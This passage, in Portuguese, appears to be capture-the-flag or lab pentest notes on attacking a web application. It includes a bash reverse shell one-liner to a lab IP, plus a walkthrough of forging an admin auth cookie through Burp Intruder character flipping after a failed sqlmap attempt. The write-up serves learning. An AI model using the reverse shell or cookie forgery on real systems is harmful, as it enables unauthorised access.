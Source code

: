    `RCE` file
    
    ```
    bash -c 'bash -i >& /dev/tcp/10.10.14.190/1234 0>&1'
    ```
    
    Iniciar o listener
    
- Coockie Snipper
    
    Ao tentar criar o utilizador admin, não é permitido, quer dizer que existe esse utilizador
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2062.png)
    
    Utilizando o sqlmap no register e login não detectou nenhum injeção SQL, é possivel criar novo utilizadores 
    
    Ao criar uma nova conta vimos que a coockie era gerada automaticamente, e de forma aleatória
    
    ```
    GET /index.php HTTP/1.1
    Host: 10.129.18.175
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.18.175/register.php
    DNT: 1
    Connection: close
    Cookie: auth=uEFgmsjNgcnOiFu59%2FswQkOlocBJaMUt
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    ```
    
    Vamos tentar uma abordagem que consiste em trocar um caractere ao criar na cookie, por exemplo, criar um utilizador cdmin, e depois colocar no intruder, com o ataque sniper,  para trocar um caractere no utilizador. O que se pretende é que ele mude uma letra na cookie, de cdmin para admin, fazendo com que a cookie seja valida. 
    
    Primeiro, vamos criar um utilizador cdmin
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2063.png)
    
    Depois de criar, atualizamos a pagina e colocamos no Burp Suite.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2064.png)
    
    Estas são as opções a colocar
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2065.png)
    
    Depois procuramos a resposta que tenha admin
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2066.png)
    
- http
    